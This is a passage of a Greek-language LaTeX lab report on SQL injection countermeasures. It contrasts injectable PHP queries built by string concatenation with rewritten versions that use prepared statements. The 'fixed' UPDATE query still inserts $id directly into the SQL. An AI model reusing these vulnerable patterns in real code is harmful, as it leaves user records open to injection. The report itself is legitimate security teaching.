			
\includegraphics[width=1\textwidth]{image/3.3.2.PNG}		
\end{center}

\begin{center}
			
\includegraphics[width=1\textwidth]{image/3.3.3.PNG}		
\end{center}

\begin{center}
			
\includegraphics[width=1\textwidth]{image/3.3.4.PNG}		
\end{center}

\section{Αντίμετρα - Προετοιμασμένη δήλωση (Prepared Statement)}

\noindent
Για να αντιμετωπίσουμε το πρόβλημα της SQL Injection χριαζετε να αλαλάξουμε τον τρόπο
με τον οποίο αποστέλλουμε το query στην βάση καθώς και τα δεδομένα. Αρχικά το
μέρος του κώδικα που χρησιμοποιούνταν για την βάση στο unsafe\_home.php ήταν το έξεις

\begin{center}
	\begin{lstlisting}
 $sql = "SELECT id, name, eid, salary, birth,
 ssn, phoneNumber, address, email,nickname,Password
 FROM credential
 WHERE name= '$input_uname' and Password='$hashed_pwd'";
 
 $return_arr = array();
 while($row = $result->fetch_assoc()){
 	array_push($return_arr,$row);
 }      
	\end{lstlisting}	
\end{center}

Το οποίο το αλλάξαμε με το

\begin{center}
	\begin{lstlisting}
$sql = $conn->prepare("
SELECT id, name, eid, salary, birth, ssn, 
phoneNumber, address, email,nickname,Password
FROM credential
WHERE name= ? and Password= ?");

$sql->bind_param("ss", $input_uname, $hashed_pwd);

$sql->execute();

$sql->bind_result($id, $name, $eid, $salary, 
$birth, $ssn, $phoneNumber, $address, $email, 
$nickname, $pwd);

$sql->fetch();
	\end{lstlisting}	
\end{center}

\noindent
Στην ουσία αυτό που αλαλάξαμε είναι ότι αντί να στέλνουμε το query ολοκληρωμένο να εκτελείτε
και να μας επιστρέφει το αποτέλεσμα σπάμε το query σε δυο βήματα ξεχωριστά. Στο πρώτο βήμα
στέλνουμε μόνο τον κώδικα από το query στην βάση με την εντολή \$conn-$>$prepare στην οποία
τα πραγματικά δεδομένα τα αντικαθιστούμε με (?). Έτσι χρησιμοποιούμε τον μηχανισμό προετοιμασίας
της SQL. Με λίγα λογία το query φτάνει πριν την φάση εκτέλεσης, περνάει από το βήμα σύνταξης 
και μετατρέπετε σε προκατασκευασμένο ερώτημα το οποίο έχει στα σημεία που βάλαμε τα (?) κενά
στοιχεία στα οποία θα τοποθετηθούν τα δεδομένα που θα αποστείλουμε. Τα δεδομένα αυτά δεν
θα περάσουν πότε από το τμήμα σύνταξης και επομένως δεν θα μετατραπούν πότε σε εκτελέσιμο κώδικα.
Επόμενος θα αντιμετωπισθούν ως μέρος των δεδομένων.

\noindent
Με αντίστοιχο τρόπο επιδιορθώσαμε το πρόβλημα στο unsafe\_edit\_backend.php, τον
παρακάτω κώδικα

\begin{center}
	\begin{lstlisting}
$sql = "
UPDATE credential 
SET nickname='$input_nickname',email='$input_email',
address='$input_address',Password='$hashed_pwd',
PhoneNumber='$input_phonenumber' where ID=$id;";

$conn->query($sql);
	\end{lstlisting}	
\end{center}

\noindent 
τον αλαλάξαμε σε

 \begin{center}
	\begin{lstlisting}
$sql = $conn->prepare("
UPDATE credential 
SET nickname= ?,email= ?,address= ?,Password= ?,
PhoneNumber= ? where ID=$id;");
$sql->bind_param("sssss",$input_nickname,$input_email,
$input_address,$hashed_pwd,$input_phonenumber);
$sql->execute();
	\end{lstlisting}	
\end{center}

\begin{center}
			
\includegraphics[width=1\textwidth]{image/4.2.PNG}		
\end{center}

\begin{center}
			
\includegraphics[width=1\textwidth]{image/4.3.PNG}		
\end{center}

\noindent
Μέτα τις αλόγες δοκιμάζουμε πάλι sql injection για να δούμε τι θα συμβεί
\begin{center}
